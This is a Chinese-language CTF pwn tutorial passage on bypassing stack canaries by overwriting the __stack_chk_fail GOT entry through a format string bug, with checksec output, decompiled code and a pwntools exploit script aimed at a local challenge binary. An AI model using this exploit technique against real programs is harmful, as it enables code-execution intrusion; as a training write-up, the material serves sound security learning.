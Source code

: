 ## 劫持\_\_stack\_chk\_fail 函数

### 原理

在开启 canary 保护的程序中，如果 canary 不对，程序会转到**stack\_chk\_fail 函数执行，**stack\_chk\_fail 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表劫持这个函数。利用方式就是通过格式化字符串漏洞来修改 GOT 表中的值。

### 条件

存在格式化字符串漏洞

### 利用

checksec 一波：

```plain
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin3
[*] '/home/qufeng/Desktop/CTF/pwn/stack/canary/bin3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

IDA 分析一波：

存在格式化字符串漏洞

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char format; // [rsp+0h] [rbp-60h]
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(*(_QWORD *)&argc, argv, envp);
  read_n((__int64)&format, 0x58u);
  printf(&format, 88LL);
  return 0;
}
```

思路：先通过格式化字符串漏洞把\_\_stack\_chk*fail 函数对应的 got 表中的值修改成后门函数地址，在通过栈溢出触发\\*\_stack\_chk\_fail 函数的执行从而触发后门函数

脚本如下：

```plain
#-*- coding:utf-8 -*-
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

p = process('./bin3')
e = ELF('./bin3')

system_addr = 0x40084e
stack_chk_fail_got_addr = e.got['__stack_chk_fail']

payload = 'a'*5 + '%' + str(system_addr&0xffff-5) + 'c%8$hn' + p64(stack_chk_fail_got_addr) + 'a'*100

p.sendlineafter('It\'s easy to PWN',payload)
p.interactive()
```

system\_addr&0xffff 的含义是取后门地址的两个低字节，然后通过$hn 写入两个低字节即可。高字节部分后门函数地址和 stack\_chk\_fail 函数地址都是相同的。
